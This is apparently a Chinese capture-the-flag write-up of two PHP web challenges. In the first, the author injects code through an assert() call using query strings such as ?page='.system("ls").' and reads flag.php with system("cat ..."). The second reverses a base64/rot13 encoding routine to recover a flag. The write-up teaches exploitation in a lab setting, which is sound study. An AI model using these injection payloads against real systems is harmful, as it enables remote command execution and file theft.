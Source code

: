 ```php
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");
?>
```
**assert()函数会将读入的代码当做PHP代码来执行**
1. 首先对strpos函数进行闭合，构造：`?page=')`
2. 可以把后面`', '..') === false`的给注释掉，构造：`?page=').phpinfo();//`
3. 或者不注释也行，直接插入，构造`?page='.phpinfo().'`

![](https://img-blog.csdnimg.cn/20200325204356214.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
那么就可以使用system()来执行语句了
`?page='.system("ls").'`
![](https://img-blog.csdnimg.cn/20200325204623846.png)
`?page='.system("cat templates/flag.php").'`,查看源码得到flag
![](https://img-blog.csdnimg.cn/20200325204814409.png)
参考：[XCTF WEB mfw](https://blog.csdn.net/qq_42967398/article/details/90758521)

## web2
给出了源码：
```php
<?php
$miwen="a1zLbgQsCESEIqRLwuQAyMwLyq2L5VwBxqGA3RQAyumZ0tmMvSGM2ZwB4tws";

function encode($str){
    $_o=strrev($str); //反转字符串
    // echo $_o;
        
    for($_0=0;$_0<strlen($_o);$_0++){//循环字符串长度
       
        $_c=substr($_o,$_0,1); //从$_0位置开始，返回1个字符
        $__=ord($_c)+1;
        $_c=chr($__);
        $_=$_.$_c;   //拼接两个变量的内容 赋值
    } 
    return str_rot13(strrev(base64_encode($_)));//返回  ROT13 编码/解码(反转字符串(base64加密($_)))
}

highlight_file(__FILE__);
/*
   逆向加密算法，解密$miwen就是flag
*/
?> 
```
逆向解密即可，这里借鉴了师傅的代码：
```php
<?php
$str='a1zLbgQsCESEIqRLwuQAyMwLyq2L5VwBxqGA3RQAyumZ0tmMvSGM2ZwB4tws';
$_ = base64_decode(strrev(str_rot13($str)));

$_o=NULL;
for($_0=0;$_0<strlen($_);$_0++){  
       
        $_c=substr($_,$_0,1);  

        $__=ord($_c)-1;  

        $_c=chr($__);  

        $_o=$_o.$_c;   
    } 
```